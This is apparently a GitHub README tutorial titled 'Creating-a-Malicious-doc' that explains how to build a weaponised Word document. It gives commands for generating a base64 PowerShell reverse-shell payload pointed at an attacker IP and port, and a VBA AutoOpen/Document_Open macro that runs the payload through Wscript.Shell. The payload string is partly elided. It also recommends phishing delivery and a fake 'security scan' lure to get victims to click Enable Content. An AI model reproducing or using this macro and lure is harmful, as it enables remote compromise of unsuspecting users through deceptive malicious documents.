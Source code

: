 # Creating-a-Malicious-doc

As we know that how important documents are in a company. We can create a malicious macro using MS Word which leads to create a doc file contain our malicious code, if any user open that doc file the payload triggred and attacker gets a reverse shell. Phishing is the best way to send someone a malicious document.

# Exploitation

### Generate a powershell base64 encoded payload using [newpayloadgeneration.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/newpayloadgeneration.py)

```markdown
python3 newpayloadgeneration.py 192.168.x.x 443 
```

![OnPaste 20220610-124634](https://user-images.githubusercontent.com/106917304/173011432-8c463a51-ec99-43a9-8b89-b6211a5b58df.png)


### Using [payload.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/payload.py) to get Shellcode

copy that payload and paste the code on another [payload.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/payload.py) python script, then run payload.py and get shellcode which we gonna copy and use it on MS Word macro. 

![OnPaste 20220610-125130](https://user-images.githubusercontent.com/106917304/173012315-35773388-26ce-46af-be5a-51be09bd5d3b.png)


```markdown
python3 payload.py
```

![OnPaste 20220610-125234](https://user-images.githubusercontent.com/106917304/173012565-ff31eac9-2d6b-48aa-96ec-47f2c22bd922.png)


### Creating a Macro using MS Word

Now open MS Word goto View --> choose Macro --> open macro --> create a macro, name it AutoOpen

![OnPaste 20220610-125805](https://user-images.githubusercontent.com/106917304/173013461-6408bd9a-1c37-4db2-890e-f6684fa49b83.png)


We need macro language to create a malicious macro.
```markdown
Sub AutoOpen() 

MyMacro 

End Sub 

Sub Document_Open() 

MyMacro 

End Sub 

Sub MyMacro() 

    Dim Str As String 

    Str = Str + "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt" 
    Str = Str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF" 
    .
    .
    .
    
    
    CreateObject("Wscript.Shell").Run Str 
    
    
    End Sub 
```

Copy and paste that encoded shellcode as shown.


![OnPaste 20220610-130325](https://user-images.githubusercontent.com/106917304/173014460-978bd7d2-ba8d-460a-bc6e-64b859c68d9f.png)


![OnPaste 20220610-130348](https://user-images.githubusercontent.com/106917304/173014522-4be0bd4e-f19c-48b1-beef-3907617d82a4.png)


NOTE: I'll give my doc name project.doc and remember to choose save type as Word 97-2003 Document. 


For this to work user must click on Enable Content, in real world usually saying something along the lines of "Security product XYZ has scanned the content and deemed it to be safe.


